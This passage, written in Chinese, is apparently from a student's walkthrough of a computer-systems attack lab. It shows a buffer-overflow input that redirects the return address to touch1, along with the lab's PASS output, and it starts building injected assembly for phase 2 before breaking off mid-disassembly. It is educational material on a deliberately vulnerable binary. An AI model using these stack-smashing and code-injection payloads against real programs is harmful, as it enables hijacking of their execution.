 ```
./hex2raw < p1.txt > p1r.txt
```
把这个字符文件转换成字节码

然后执行
```
./ctarget -qi p1r.txt
```
** 注意需要加q,不用远程评分，因为我们的ｈｏｓｔ不对**

否则为：
```
FAILED: Initialization error: Running on an illegal host [ferris]
```
然后就可以看到结果：

```
./ctarget -qi p1r.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:

        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00
```
#### phase_2

第二关中需要插入一小段代码，ctarget 中的 touch2 函数的 C 语言如下：
```
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
也需要把自己的 cookie 作为参数传进去，这里需要把参数放到 %rdi 中，只使用 ret 来进行跳转。

按照教程，先建立 p2.s汇编文件　：
```
mov $0x59b997fa, %rdi # set my cookie as the first parameter
pushq $0x4017ec
ret
```
然后转为机器码
```
gcc -c p2.s
objdump -d p2.o > p2.byte
```
得到文件为：
```
2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
```